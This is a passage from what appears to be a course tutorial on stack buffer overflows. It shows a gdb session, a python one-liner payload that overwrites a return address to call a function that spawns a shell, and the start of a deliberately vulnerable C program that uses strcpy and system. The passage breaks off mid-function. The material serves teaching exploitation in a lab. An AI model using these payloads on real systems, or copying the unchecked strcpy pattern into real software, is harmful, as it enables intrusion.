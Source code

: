 ``` example
|     <addr pwn>     |
|  bad's ret address |
|     <addr bad>     |
```

That is, the address of bad overwrites the return address of vuln. The
next item in the stack will be bad's return address, which we don't need
to worry about; however, the following item is the first argument to
bad, which should be pwn.

To complete this exploit, we determine the address of pwn and bad, and
give it a go.

``` example
user@si485H-base:demo$ gdb -q call_bad_sh
Reading symbols from call_bad_sh...done.
(gdb) x/x pwn
0x804a02c <pwn>:    0x6e69622f
(gdb) x/x bad
0x80484ad <bad>:    0x83e58955
(gdb) quit

user@si485H-base:demo$ ./call_bad_sh `python -c "print 'A'*(0x6c+4) + '\xad\x84\x04\x08' + '\xfe\xbe\xad\xde' + '\x2c\xa0\x04\x08'"`
Buf: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA?????,?
You've been PWNED!
$ 
```

That's not too bad.

## Chaining Two Functions with Arguments

Let's add a bit more complexity to this exploit. Suppose now we want to
make a call to another function first before calling bad(), and the
arguments to those functions matter.

``` c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

char pwn[100];

void bin_sh(int magicbeef){
  if (magicbeef == 0xdeadbeef){
    strcat(pwn,"/bin/sh");
  }
  printf("pwn: %s\n",pwn);

}

void bad(char * s){
  printf("You've been PWNED!\n");

  system(s);

}

void vuln(char * s){
  char buf[100];

  strcpy(buf,s);

  printf("Buf: %s\n", buf);
```